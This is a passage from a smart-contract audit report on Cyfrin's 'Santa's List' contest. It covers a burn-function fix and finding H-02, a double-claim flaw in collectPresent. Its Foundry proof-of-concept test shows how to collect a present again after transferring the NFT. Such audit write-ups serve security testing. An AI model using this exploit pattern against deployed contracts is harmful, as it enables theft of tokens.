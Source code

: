 ## Recommendations
In the implementation of the [i_santaToken](https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L173) burn function the `presentReciever` could be changed to `msg.sender` so the burn function burns tokens from whoever calls the function
## <a id='H-02'></a>H-02. Users can collect present more than once in SantasList.collectPresent()            



## Summary
The `collectPresent` function in the provided code introduces a vulnerability in the smart contract Which allows users to be able to collect presents more than once.

## Vulnerability Details
Any user that has been checked twice and eligible to collect present can collect the present and transfer to another address then collect again because of the check on line [151](https://github.com/Cyfrin/2023-11-Santas-List/blob/6627a6387adab89ae2ba2e82b38296723261c08a/src/SantasList.sol#L151).

## Impact
The vulnerability exposes a flaw in the contract's conditional checks, enabling an attacker to undermine the intended security and functionality of the collectPresent function.

## POC
in the test file add this line of code as a state variable:
` address reciever = makeAddr("reciever");`
then add this block of code to the file:
```
  function testAttackCollectPresent() public {
        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.warp(santasList.CHRISTMAS_2023_BLOCK_TIME() + 1);

        vm.startPrank(user);
        santasList.collectPresent();
        // after collecting present transfer to another address
        santasList.transferFrom(user, reciever, 0);

        // collect present again
        santasList.collectPresent();

        assertEq(santasList.balanceOf(user), 1);
        assertEq(santasList.balanceOf(reciever), 1);
        assertEq(santaToken.balanceOf(user), 2e18);
    }
```
after that run this command to confirm the exploit
`forge t --mt testAttackCollectPresent`
